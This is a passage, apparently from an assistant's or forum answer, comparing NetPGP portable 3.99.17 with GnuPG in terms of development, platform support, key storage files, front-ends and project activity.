- **Version Identification**: The version you mentioned, "NetPGP portable 3.99.17/[20101103]," suggests a specific, potentially static version, where the date might indicate the release or revision date.

**GnuPG**:

- **Developing Organization**: GnuPG is developed by the GNU project and is part of the GNU system.
- **Widespread Use**: GnuPG is widely used across a variety of systems, including Linux distributions, FreeBSD, other Unix-like systems, and even Windows.
- **Modularity**: Newer versions of GnuPG support more modern key storage and management mechanisms, with public keys using `pubring.kbx` and private keys stored in the `private-keys-v1.d` directory.
- **Rich Features**: GnuPG has many front-ends and plugins, such as Enigmail for the Thunderbird email client, as well as graphical user interfaces like Kleopatra and GPA.

**Differences Between the Two**:

- **Project Activity**: GnuPG generally has more frequent updates and a more active community support.
- **Functionality and Compatibility**: Although both support the OpenPGP standard, GnuPG may offer more features and configuration options.
- **Usage and Recognition**: GnuPG, due to its wide use and recognition, may be preferred in certain environments.
